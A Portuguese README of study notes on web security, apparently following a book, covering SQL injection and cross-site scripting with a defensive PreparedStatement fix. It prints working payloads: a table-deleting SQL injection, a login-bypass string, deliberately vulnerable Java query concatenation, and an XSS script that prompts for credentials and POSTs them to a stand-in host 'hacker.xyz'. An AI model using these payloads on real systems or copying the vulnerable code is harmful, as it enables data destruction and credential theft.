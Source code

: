# safety-web

	Repositório criado para o estudo de segurança na web, inicialmente com o livro [ Segurança em aplicações WEB ] (https://www.casadocodigo.com.br/products/livro-seguranca).


Principais tipo de ataques abordados:

*SQL injection
*Cross-site Scripting (XSS)
*Cross-site Request Forgery (CSRF)
*Session Hijacking


## Capitulo 01 ( O velho e conhecido SQL Injection )

#### Vunerabilidade 
	
em aplicações com banco de dados SQL, por muitas vezes precisamos fazer buscas dinamicas algo como:
````
SELECT	*	FROM	produtos	
	WHERE	preco	BETWEEN	1000.00	AND	5000.00;
````
mas em uma aplicação os valores do intervalo precisam ser dinamicos... algo como:
````
SELECT	*	FROM	produtos	
	WHERE	preco	BETWEEN	:valorMinimo	AND	:valorMaximo;
````
nesse caso temos valorMinimo e valorMaximo, essas variáveis serão acessiveis no back end e possivelmente vão vir do front, e é ai que mora o perigo do SQL injection.

#### Como funciona?

o SQL injection acontece quando o usuário malicioso insere uma query SQL em algum input, enviando-a para o back end criando assim um comportamento diferente do previsto, se essa informação
não for tratada antes de ser executada pode causar grandes danos, um exemplo simples seria um trexo de como :
````
';delete from usuarios;
````
se esse comando for executado em um back end sem validação e que está concatenando os valores vindos do front na query sql, ele ira apagar todos os dados da tabela usuário, ou seja se não tem backup deu merda...

#### Testando uma aplicação

existem várias maneiras de testar o SQL Injection, uma delas seria na tela clássica de login digitando.. ```` '	or	1	or	'a'	=	'a ```` e no campo senha digitamos qualquer coisa, se ao clicar me logar você for redirecionado para alguma tela interna é porque  a aplicação está vulnerável ao ataque, vamos entender melhor o que está acontecendo... normalmente as verificações de usuário e senha consistem em uma query algo como ```` SELECT * FROM usuarios WHERE login = 'admin' AND senha = '1234'; ```` sendo 'admin' e '1234' os valores digitados na tela de login... em java o código no back end seria algo como :
````java
public	Usuario	buscaPorLoginESenha(String	login,	String	senha)	{
	String	sql	=	"SELECT	*	FROM	usuarios	WHERE	login	=	'"	+login	+"'	AND	senha	=	'"	+senha	+"'";
	Connection	con	=	//recupera	a	connection...
	ResultSet	resultado	=	con.createStatement().executeQuery(sql);
	return	montaObjetoUsuario(resultado);
}

```` 
veja que o código está concatenando a string login e senha que vem por parametro... o que acontece é algo como : Login = '[' or 1 or 'a' = 'a'] AND senha = 'valorqualquer' esssa expressão vai retornar true como se a consulta encontrasse o resultado válido no banco.

#### Como se proteger desse ataque

*A	regra	que	gosto	de	citar	é	bem	simples:	NÃO	CONFIE	NOS SEUS	USUÁRIOS!

para se proteger desse ataque devemos sempre tratar os dados vindos do front, e para além devemos também usar frameworks ORMs que nos ajudaram nessa tarefa, e usando das melhores tecnicas podem prover uma maior segurança para a nossa aplicação, e nunca nunca devemos concatenar os dados do front em scripts SQL... vamos agora refatorar o exemplo anterior para proteger a aplicação do SQL injection, podemos fazer isso usando o PreparedStatement no lugar do Statement.
````java
public	Usuario	buscaPorLoginESenha(String	login,	String	senha)	{
	String	sql	=	"SELECT	*	FROM	usuarios	WHERE	
	login	=	?	AND	senha	=	?";
	Connection	con	=	//recupera	a	connection...
	PreparedStatement	ps	=	con.prepareStatement(sql);
	ps.setString(1,	login);
	ps.setString(2,	senha);
	ResultSet	resultado	=	ps.executeQuery();
	return	montaObjetoUsuario(resultado);
}
````

## Capitulo 02 ( cross-site scripting - XSS)

#### Vulnerabilidade

Acontece quando o sistema permite que o usuário insira código html, css e javascript através de inputs, essa vulnerabilidade foi pela primeira vez explorada em 2005 por Samy Kamkar, um hacker de 19 anos que executou um scripting no Myspace e conseguiu 24 milhoes de amigos em menos de 24 horas, o ataque consistia em basicamente em inserir um código javascript em um input que era usado para colocar código css e deixar o perfil customizado ( código css não gera riscos ), o risco ocorre quando aceita também códigos javascript.

#### Como funciona?

O XSS funciona da seguinte maneira... o usuário malicioso envia um código javascript para a aplicação, a partir desse momento todos os navegadores que acessarem essa página irão executar esse script, e as alternativas são muitas.. como o script pode solicitar usuário e senha da aplicação, ele pode redirecionar para outra página, ou como o Samy ele pode fazer a pessoa te adicionar na rede social, curtir suas fotos e fazer uma declaração..  um exemplo de XSS seria:
````
<script>
var	login	=	prompt("Digite	seu	Login:");
var	senha	=	prompt("Digite	sua	Senha:");
var	url	=	"http://hacker.xyz/xss?login="	+login	+"&senha="	+senha;
var	req	=	new	XMLHttpRequest();
req.open("POST",	url,	true);
req.send();
</script>
```` 
para enviar esse script para outra pessoa podemos usar a url que em inputs de busca normalmente se comporta da seguinte maneira.. http://www.exemplo.com/busca?termodabusca, então onde tem o termo da busca pode ser inserido o script ,enviando o endereço com o script ele vai ser executado no computador na vítima.
 

PAGINA 22